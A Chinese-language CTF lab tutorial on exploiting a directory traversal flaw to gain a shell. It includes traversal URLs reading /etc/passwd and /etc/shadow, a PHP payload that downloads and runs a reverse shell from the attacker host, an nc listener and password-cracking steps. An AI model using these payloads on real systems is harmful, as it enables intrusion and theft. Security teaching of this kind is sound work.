










# CTF夺旗赛：P37：目录遍历漏洞利用与权限获取 🚩

在本节课中，我们将学习Web安全中的目录遍历漏洞。我们将通过利用此漏洞，最终获取目标主机的`root`权限并取得`flag`值。课程将涵盖从信息收集、漏洞发现、Web Shell上传到获取初始权限的完整流程。

## 目录遍历漏洞简介

目录遍历漏洞，也称为路径遍历攻击，其核心目的是访问存储在Web根目录之外的文件和目录。

攻击者通过操纵带有`../`（点斜线）序列或使用绝对文件路径的变量，可以访问应用程序源代码、配置文件甚至关键系统文件。

**需要注意的是**：系统级别的访问控制（如文件权限）会限制此类攻击。例如，在Windows或Linux系统上，如果一个文件被设置为不可读，那么即使存在目录遍历漏洞，也无法读取其内容。

上一节我们介绍了目录遍历的基本概念，本节中我们来看看实验环境。

## 实验环境搭建

*   **攻击机**：Kali Linux， IP地址为 `192.168.1.106`。
*   **靶机**：一台Linux系统， IP地址为 `192.168.1.104`。

我们的最终目标是获取靶机的`root`权限。所有后续操作都将围绕此目标展开。

## 信息收集与探测

在获得靶机IP后，首先需要对其进行信息探测，以了解其开放的服务和潜在入口点。

### 服务与版本扫描

我们使用`Nmap`工具来扫描靶机开放的服务及其版本信息。



以下是扫描命令：
```bash
nmap -sV 192.168.1.104
```
执行该命令后，`Nmap`会发送探测数据包并分析响应，最终将开放的服务信息输出到终端。

### 全面信息探测

除了服务扫描，我们还可以对靶机进行更全面的信息探测。



以下是全面探测命令：
```bash
nmap -T4 -A -v 192.168.1.104
```
此命令以最快速度（`-T4`）启用所有扫描脚本（`-A`）并进行详细输出（`-v`），可以获取操作系统、路由、服务详情等综合信息。



### Web服务探测

如果扫描发现开放了HTTP服务（如80端口），我们可以使用专门工具进行深入探测。

以下是使用`Nikto`进行Web漏洞扫描的命令：
```bash
nikto -h http://192.168.1.104
```
**注意**：如果HTTP服务运行在非80端口（如8080），则需要在命令中指定端口号，例如 `http://192.168.1.104:8080`。

同时，我们可以使用`Dirb`工具来枚举Web目录和文件，寻找敏感路径。

以下是目录枚举命令：
```bash
dirb http://192.168.1.104
```
`Dirb`会使用内置字典对目标站点进行暴力枚举，尝试发现隐藏的目录或文件。

在信息收集阶段，我们使用了`Nmap`、`Nikto`和`Dirb`。接下来，我们需要分析这些工具的扫描结果。

## 漏洞发现与分析



分析扫描结果后，我们发现了几个值得关注的入口点：
1.  通过浏览器访问 `http://192.168.1.104`，发现一个商城站点。
2.  `Dirb`扫描发现了一个疑似数据库管理后台的目录 `/dbadmin`。
3.  访问 `/dbadmin/testDB.php`，进入了一个名为“phpLiteAdmin”的数据库管理系统登录界面。



为了系统性地发现漏洞，我们使用自动化漏洞扫描器`OWASP ZAP`对目标站点进行扫描。扫描结果中标记出了一个**高危的目录遍历漏洞**。

漏洞详情显示，访问特定的URL可以读取服务器上的 `/etc/passwd` 文件：
```
http://192.168.1.104/vulnerabilities/fi/?page=../../../../../../etc/passwd
```
这证实了目录遍历漏洞的存在。我们可以尝试修改路径来读取其他文件，例如 `/etc/shadow`（存储加密密码的文件）：
```
http://192.168.1.104/vulnerabilities/fi/?page=../../../../../../etc/shadow
```
但通常`shadow`文件权限严格，可能无法直接读取。

## 漏洞利用：获取Web Shell

确认漏洞后，我们的目标是利用它来获取一个反向Shell，从而远程控制靶机。

基本思路如下：
1.  找到一个可以上传或写入文件的地方（如数据库管理后台）。
2.  上传一个Web Shell文件到服务器。
3.  通过目录遍历漏洞访问这个Web Shell文件。
4.  Web Shell执行后，会连接回我们攻击机上监听的端口，从而得到一个反向Shell。

### 步骤一：获取并修改Web Shell



Kali Linux中自带了许多Web Shell脚本。我们选择一个PHP反向Shell脚本。

以下是操作命令：
```bash
# 定位并复制PHP反向Shell脚本到桌面
cp /usr/share/webshells/php/php-reverse-shell.php ~/Desktop/
cd ~/Desktop
# 重命名以便使用
mv php-reverse-shell.php shell.php
# 编辑脚本，设置反弹连接的IP和端口
nano shell.php
```
在编辑器中，找到 `$ip` 和 `$port` 变量，将其修改为Kali攻击机的IP（`192.168.1.106`）和一个监听端口（例如 `4444`）。保存并退出。



### 步骤二：寻找文件上传点

我们之前发现的`phpLiteAdmin`是一个潜在的上传点。尝试使用弱口令（如用户名`admin`，密码`admin`或`123456`）进行登录，并成功进入后台。

在该系统中，我们可以通过“创建数据库”的功能，将数据库名设置为以`.php`结尾的文件（如`shell.php`）。然后在该数据库中创建数据表，并在字段中插入我们想要执行的PHP代码。

### 步骤三：准备下载服务器和监听器

在写入Web Shell之前，我们需要在Kali上启动一个HTTP服务器，以便靶机下载我们的`shell.php`文件。同时，需要启动一个Netcat监听器来接收反弹连接。

以下是启动HTTP服务器的命令（在`shell.php`所在目录）：
```bash
python3 -m http.server 8000
```
以下是启动Netcat监听器的命令（在另一个终端）：
```bash
nc -nlvp 4444
```

### 步骤四：写入并触发Web Shell

在`phpLiteAdmin`中，创建一个名为`shell.php`的数据库。然后创建一个数据表，在某个文本字段中插入以下PHP代码，其功能是下载并执行我们的Web Shell：
```php
<?php system("cd /tmp; wget http://192.168.1.106:8000/shell.php; chmod +x shell.php; php shell.php"); ?>
```
接着，通过目录遍历漏洞访问这个被我们“伪装”成数据库的PHP文件：
```
http://192.168.1.104/vulnerabilities/fi/?page=../../../../../../var/www/db/dbadmin/shell.php
```
访问此URL后，观察Netcat监听终端，如果成功，将会收到一个来自靶机的反向Shell连接。

## 获取初始Shell与权限提升

成功反弹Shell后，我们通常获得的是`www-data`用户的权限。这个Shell可能功能不全，我们需要将其升级为一个完全交互式的TTY Shell。





在获取的Shell中执行以下命令：
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
执行后，我们将获得一个更易用的`bash` Shell。

此时，我们拥有的是`www-data`用户权限，而非最终的`root`权限。关于如何从`www-data`提权至`root`，我们将在后续课程中详细介绍。常见的提权方法包括利用SUID文件、内核漏洞、计划任务（cron job）配置错误等。

此外，目录遍历漏洞读取到的`/etc/passwd`和`/etc/shadow`文件（如果可读）可以用于密码破解。我们可以使用`unshadow`工具组合这两个文件，然后用`john`（John the Ripper）进行暴力破解，尝试获取其他用户的密码，可能有助于权限提升或横向移动。

## 课程总结

本节课我们一起学习了CTF中目录遍历漏洞的完整利用链：

1.  **信息收集**：使用`Nmap`、`Dirb`、`Nikto`等工具探测目标，发现Web服务及敏感路径。
2.  **漏洞发现**：利用`OWASP ZAP`扫描器或手动测试，确认目录遍历漏洞。
3.  **漏洞利用**：结合弱口令进入后台（如`phpLiteAdmin`），通过创建特殊文件的方式上传Web Shell代码。
4.  **获取访问权限**：通过目录遍历漏洞触发Web Shell，利用Netcat监听获取反向Shell，并升级为交互式TTY。
5.  **后续思路**：初步获取`www-data`权限后，为后续的权限提升（提权至`root`）打下基础。



目录遍历是一个经典的Web漏洞，理解其原理和利用方式对于网络安全学习至关重要。